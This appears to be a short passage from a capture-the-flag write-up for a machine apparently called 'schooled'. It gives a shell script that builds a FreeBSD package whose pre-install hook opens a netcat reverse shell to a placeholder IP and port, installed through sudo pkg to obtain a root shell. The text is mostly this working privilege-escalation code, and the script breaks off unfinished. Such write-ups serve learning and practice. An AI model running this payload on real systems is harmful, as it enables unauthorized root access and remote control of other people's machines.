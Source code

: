 ![schooled/Untitled%2034.png](schooled/Untitled%2034.png)

![schooled/Untitled%2035.png](schooled/Untitled%2035.png)

Script to create the PKG and run.

```python
pkg create -m foo/ -r foo/ -o ./
sudo /usr/sbin/pkg install --no-repo-update foo-1.0.txz
```

```python
#!/bin/sh
STAGEDIR=/tmp/package
rm -rf ${STAGEDIR}
mkdir -p ${STAGEDIR}
cat >> ${STAGEDIR}/+PRE_INSTALL <<EOF
# careful here, this may clobber your system
echo “Resetting root shell”
rm /tmp/a;mkfifo /tmp/a;cat /tmp/a|/bin/sh -i 2>&1|nc IP PORT >/tmp/a
EOF
cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
# careful here, this may clobber your system
echo “Registering root shell”
pw usermod -n root -s /bin/sh
```